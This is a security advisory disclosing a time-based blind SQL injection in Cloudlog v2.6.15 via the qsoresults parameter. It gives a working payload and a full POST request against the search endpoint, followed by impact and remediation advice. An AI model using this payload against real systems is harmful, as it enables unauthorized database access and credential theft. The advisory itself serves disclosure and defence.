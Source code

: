 # SQL injection in Cloudlog v2.6.15 - qsoresults parameter


A time-based blind SQL Injection vulnerability has been identified in the **Cloudlog v2.6.15 platform**, at the endpoint /index.php/logbookadvanced/search, through the qsoresults parameter . This vulnerability allows a malicious user to execute arbitrary SQL commands on the MySQL database, compromising the security of the system.

# Vulnerable endpoint:

URL: /index.php/logbookadvanced/search

Method: POST

Vulnerable parameter: qsoresults

# Vulnerability Details:

The vulnerability exploits an SQL injection to force the execution of an SQL function (such as BENCHMARK or EXTRACTVALUE), deliberately slowing down the system to confirm the existence of the vulnerability.


Payload:

**qsoresults=250 PROCEDURE ANALYSE(EXTRACTVALUE(1073,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x65636f70))))),1)**


 
**Malicious HTTP Request:**

POST /index.php/logbookadvanced/search HTTP/1.1

Host: localhost

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Content-Length: 104


qsoresults=250 PROCEDURE ANALYSE(EXTRACTVALUE(1073,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x65636f70))))),1)



# Impact:
An attacker can exploit this vulnerability to:
Execute arbitrary SQL queries, potentially extracting sensitive data.
Compromise database integrity.
Gain unauthorized access to critical data such as user credentials.

# Recommended Solution:
Input Validation: Implement strict input sanitization for the qsoresults parameter .
Parameterized Queries: Use parameterized queries to prevent user injection of SQL commands.
Permission Restriction: Restrict the privileges of the database user used by the application.
Web Application Firewall (WAF): Implement a WAF to monitor and block SQL injection attempts.




